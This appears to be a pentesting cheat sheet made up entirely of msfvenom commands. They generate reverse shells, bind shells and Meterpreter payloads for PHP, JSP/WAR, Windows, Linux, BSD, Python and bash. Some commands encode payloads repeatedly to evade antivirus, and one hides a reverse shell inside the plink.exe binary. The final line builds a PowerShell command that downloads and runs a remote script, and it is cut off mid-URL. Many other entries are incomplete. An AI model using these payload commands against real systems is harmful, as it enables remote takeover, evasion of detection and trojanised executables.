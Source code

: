 # **msfvenom**

# PHP reverse shell  
msfvenom -p php/meterpreter/reverse_tcp LHOST=x.x.x.x  
  
# Java WAR reverse shell  
msfvenom -p java/shell_reverse_tcp LHOST=x.x.x.x  
  
# Linux bind shell  
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai  
  
# Linux FreeBSD reverse shell  
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=x.x.x.x  
  
# Linux C reverse shell  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows non staged reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows Staged (Meterpreter) reverse shell  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x  
  
# Windows Python reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows ASP reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows ASPX reverse shell  
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows JavaScript reverse shell with nops  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows Powershell reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows reverse shell excluding bad characters  
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=x.x.x.x  
  
# Windows x64 bit reverse shell  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x  
  
# Windows reverse shell embedded into plink  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
#JSP  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=x.x.x.x  
  
#ASP  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
  
#FTP  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
ProFTPD  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=x.x.x.x  
  
  
ORACLE xdb FTP Pass Exploit  
  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
Apache shell war  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=x.x.x.x  
  
#ASP  
msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x  
  
#JS  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=x.x.x.x  
  
  
#Create a PE Reverse Shell  
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -o shell_reverse.exe  
  
#Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai  
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe  
  
#Create a PE reverse shell and embed it into an existing executable  
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe  
  
#Create a PE Reverse HTTPS shell  
msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe  
  
  
#python  
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py  
  
#bash  
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh  
  
#ELF  
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=x.x.x.x  
  
#Linux Based Shellcode  
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT= <Your Port to Connect On> -f <language>  
  
#Windows based shellcode  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>  
  
  
#Unix Shell  
msfvenom -p cmd/unix/reverse_bash lhost=x.x.x.x  
  
#wordpress  
msfvenom -p php/meterpreter/reverse_tcp lhost=x.x.x.x  
  
#cron  
msfvenom –p cmd/unix/reverse_bash lhost=x.x.x.x  
  
#bind shell  
msfvenom -p windows/shell_bind_tcp LHOST=x.x.x.x  
  
  
for powershell downloading  
  
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('[http://](http://10.10.14.21/shell.ps1'))x.x.x.x